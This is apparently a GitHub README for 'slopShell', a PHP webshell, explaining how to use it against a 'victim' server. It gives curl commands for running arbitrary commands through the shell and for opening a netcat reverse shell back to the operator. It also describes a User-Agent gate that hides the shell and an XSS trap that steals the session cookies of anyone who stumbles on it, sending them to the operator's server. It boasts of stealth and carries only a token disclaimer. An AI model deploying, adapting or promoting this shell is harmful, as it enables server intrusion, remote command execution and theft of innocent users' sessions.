 # slopShell
php webshell

Since I derped, and forgot to talk about usage. Here goes.

For this shell to work, you need 2 things, a victim that allows php file upload(yourself, in an educational environment) and a way to send http requests to this webshell. 

---
## How to interact.

Firstly, you need to choose a valid User-Agent to use, this is kind of like a first layer of protection against your webshell being accidentally stumbled upon by anyone but you. I went with sp/1.1 as its a non typical user-agent used. This can cause red flags in a pentest, and your access or script to be blocked or deleted. So, be smart about it. Code obfuscation wouldnt hurt, I did not add that in because thats on you to decide. To use the shell, there are some presets to aid you in your pen test and traversal of the machine. I did not add much for windows, because I do not like developing for windows. If you have routines or tricks added or know about, feel free to submit an issue with your suggestion and ill add it. An example of how to use this webshell with curl:

`curl https://victim/slop.php?qs=cqP -H "User-Agent: sp/1.1" -v`

or to execute custom commands:

`curl https://victim/slop.php --data "commander=id" -H "User-Agent: sp/1.1" -v`

Or to attempt to establish a reverse shell to your machine:

`curl https://victim/slop.php --data "rcom=1&mthd=nc&rhost=&rport=&shell=sh" -H "User-Agent: sp/1.1" -v`

- mthd = the method you want to use to establish the reverse shell, this is predefined in the `$comma` array, feel free to add to it, optional, if it is null, the script will choose for you.
- rhost = you, now this and the rport are not required, as it defaults to using netcat with the ip address in the `$_SERVER["REMOTE_ADDR"]` php env variable.
- rport = your listener port, the default was set to 1634, just because.
- shell = the type of system shell you want to have. I know bash isnt standard on all systems, but thats why its nice for you to do some system recon before you try to execute this command.

Here is the better part of this shell. If someone happens upon this shell without supplying the exact user agent string specified in the script, this shell will produce a 500 error with a fake error page then it will attempt some XSS to steal that users session information and sends it back to a handler script on your server/system. This will then attempt to store the information in a running log file. If it is unable to do so, well the backup is your logs. Once the XSS has completed, this shell will redirect the user back to the root(/) of the webserver. So, youll steal sessions if someone finds this, can even beef it up to execute commands on the server on behalf of the user, or drop a reverse shell on the users browser through Beef or another method. The possibilities are legit endless.

---
## Images of use cases

In browser, navigated to without the proper user-agent string. (1st level of auth)
![](https://github.com/oldkingcone/slopShell/blob/master/in_browser.jpeg?raw=true)

Use in the terminal, which is how this was designed to work, using curl with the -vH "User-Agent: sp1.1" switches.
![](https://github.com/oldkingcone/slopShell/blob/master/use_in_terminal.jpeg?raw=true)

---
## Additional

This was going to remain private. But I decided otherwise.

Do not abuse this shell, and get a signature attached to it, this is quite stealthy right now since its brand new.

I as the maintainer, am in no way responsible for the misuse of this product. This was published for legitmate penetration testing/red teaming purposes, and/or for educational value.  Know the applicable laws in your country of residence before using this script, and do not break the law whilst using this. Thank you and have a nice day.



If you have enjoyed this script, its is obligatory that you follow me and throw a star on this repo... because future editions will have more features(or bugs) depending on how you look at it.
